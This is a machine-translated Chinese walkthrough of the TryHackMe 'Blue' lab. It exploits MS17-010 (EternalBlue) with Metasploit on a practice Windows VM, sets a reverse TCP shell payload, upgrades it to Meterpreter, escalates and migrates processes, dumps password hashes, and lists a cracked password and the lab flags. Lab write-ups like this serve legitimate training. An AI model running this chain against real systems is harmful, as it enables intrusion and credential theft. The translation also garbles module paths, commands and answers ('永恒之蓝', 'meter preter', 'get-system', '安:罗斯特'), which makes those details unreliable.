




# Tryhackme Blue 演练

> 原文：<https://infosecwriteups.com/tryhackme-blue-walkthrough-b0ec9b60e563?source=collection_archive---------1----------------------->

作者:穆基兰·B

> 嗨，了不起的黑客们，我又带着另一个有趣的话题回来了。

首先，部署攻击箱或通过自己的机器运行。

然后他们告诉的第一个任务是扫描机器的漏洞。

他们给出的使用命令查找漏洞的提示

> **命令:nmap -sV -vv —脚本 vuln TARGET_IP**

然后扫描机器，显示机器中的漏洞列表。

> **端口号在 1000 以下的开放端口有多少个？**

***安:3***

> **这台机器容易受到什么攻击？(以:ms 的形式回答？？-?？？，例如:ms08–067)**

***回答:ms17–010***

然后使用以下命令启动 Metasploit

> **$ msfconsole**
> 
> **找到我们将在机器上运行的利用代码。代码的完整路径是什么？(例如:利用/……..)**

***Ans:exploit/windows/SMB/ms17 _ 010 _ 永恒之蓝***

键入 ***在 msfconsole 中使用 exploit/windows/SMB/ms17 _ 010 _ eternal blue***

然后键入 **show options，**将显示 RHOSTS 和一些其他选项，如 **SESSIONS** 我们必须启用它键入 **set RHOSTS target-IP** 并

**设置会话 1** ，然后输入**运行。**

> **显示选项并设置一个所需的值。这个值的名称是什么？(提交时全部大写)**

***安:罗斯特***

> **通常，按原样运行此漏洞利用就可以了；但是，为了学习，你应该在开发目标之前再做一件事。输入以下命令并按回车键:**

`***set payload windows/x64/shell/reverse_tcp***`

> **确认漏洞利用已经正确运行。您可能需要按 enter 键，DOS shell 才会出现。这个外壳的背景(CTRL + Z)。如果失败，您可能需要重新启动目标虚拟机。请尝试在目标重新启动之前再次运行它。**

运行漏洞攻击后，您可以通过键入 **shell** 命令进入 shell

键入**whoami**它会发现它的管理员名称

要从 shell 运行回**meter preter**type***Ctrl+z .***

它会询问后台会话 1 是/否键入 ***是*** 返回到 ***meterpreter。***

> 如果你还没有，背景之前获得的外壳(CTRL + Z)。在线研究如何在 Metasploit 中将 shell 转换为 meterpreter shell。我们将使用的后置模块的名称是什么？(确切的路径，类似于我们之前选择的漏洞)

**Ans:post/multi/manage/shell _ to _ meter preter**

> **选择此项(使用模块路径)。显示选项，我们需要更改什么选项？**

***Ans:会话***

我们希望 post 通过输入以下有效载荷来利用它

***使用 post/multi/manage/shell _ to _ meter preter***

键入此有效载荷后，输入 ***显示选项***

启用 ***lhost*** 和 ***会话***

键入 ***get-system*** 命令和 ***ps*** 命令并迁移进程 id

类型迁移 ***PROCESS_ID***

> **在我们提升的 meterpreter shell 中，运行命令‘hash dump’。这将转储机器上的所有密码，只要我们有正确的权限这样做。非默认用户的名称是什么？**

**安:乔恩 **

> **把这个密码哈希复制到一个文件里，研究如何破解。被破解的密码是什么？**

**Ans:alqfna 22**

下一个任务是找到一些标志:

在这里输入 ***find -f flag*。txt***

您可以找到此任务的标志

> **Flag1？*这个标志可以在系统根目录下找到。***

***Ans:标志{access_the_machine}***

> ***勘误表:Windows 确实不喜欢这个标志的位置，偶尔可以删除。在某些情况下，可能需要终止/重新启动机器，并重新运行漏洞来查找此标志。然而，这种相对罕见的情况会发生。**

***标志{ Sam _ database _ elevated _ access }***

> **flag3？这面旗帜可以在一个绝佳的地点找到。毕竟，管理员通常会保存一些非常有趣的东西。**

***标志{ admin _ documents _ can _ be _ valued }***

**Thankyou 了不起的黑客**